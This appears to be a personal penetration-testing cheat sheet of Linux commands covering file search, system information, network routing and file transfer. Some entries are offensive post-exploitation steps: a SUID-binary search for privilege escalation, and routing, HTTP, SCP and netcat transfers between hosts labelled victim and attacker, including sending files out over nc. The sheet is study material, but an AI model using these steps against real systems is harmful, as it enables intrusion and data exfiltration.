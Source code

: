 ## Useful Commands I don't know:
### Files:

```bash
# Klartextsuche
find / -iname "test" -type f/d/l/s
```

```bash
# Pipes:
# ------
# Überschreibung:
echo "hey" > test.txt
# Anhängen:
echo "hey" >> test.txt
```

```bash
# Suche in Dateien
grep -i "text" .bash_history
```

```bash
# Unterschied zwischen 2 Dateien
comm test_1.txt test_2.txt
vim -d
```

```bash
# Ausgabe ersten Zeilen
head -n 3
```

```bash
# Ausgabe letzten Zeilen
tail -n 3
```

```bash
# Find files with SUID bit set:
find / -user root -perm -4000 -print 2>/dev/null | head -20
```

### Movement:
```bash
# Save temp a folder location
pushd

# Move around
cd .. (And so on)

# When you want to go back
popd
```

### System information:

```bash
# Finden von Programmen
which

# Aktueller User
whoami
```

```bash
# Kernel Version
uname -a

cat /etc/issue
```

```bash
# Rechte von user
id
```
### Network information

```bash
# See open ports
netstat -alnu

netstat -tulpen

netstat -tuln
```

Add Gateway (if subnet is not reachable). The host 192.168.1.2 can reach 192.168.1.1 (The proxied Webserver) but not 192.168.2.0/24 and therefore not 192.168.2.2 (The machine):
```bash
# Victim:
ip route add 192.168.1.2 via 192.168.1.1

# Attacker:
ip route add 192.168.2.2 via 192.168.1.1
```

```bash
# See all open connections
lsof -ai -p "$pid"
```

```bash
# Find IP for Domain
nslookup domain.local

whois domain.local
```
## File Transfer:

#### SCP:

Step 1: Enable SSH on Attacker
```bash
sudo apt update

sudo apt install openssh-server

sudo systemctl start ssh

sudo systemctl enable ssh
```

Step 2: Download file via SCP:
```bash
scp file.txt kali@192.168.1.2:/home/kali
```


(Upload):
```bash
scp kali@192.168.1.2:/home/kali/file.txt
```

#### Python:

Step 1: HTTP Server on Attacker (or victim if upload):
```bash
python -m http.server 9000
```

Step 2: Download file:
```bash
wget 192.168.1.2:9000/file.txt
```

#### NC:

Step 1: Create listener on receiver:
```bash
nc -lvnp 4444 > file.txt
```

Step 2: Send file:
```bash
nc 192.168.1.2 4444 < file.txt
```
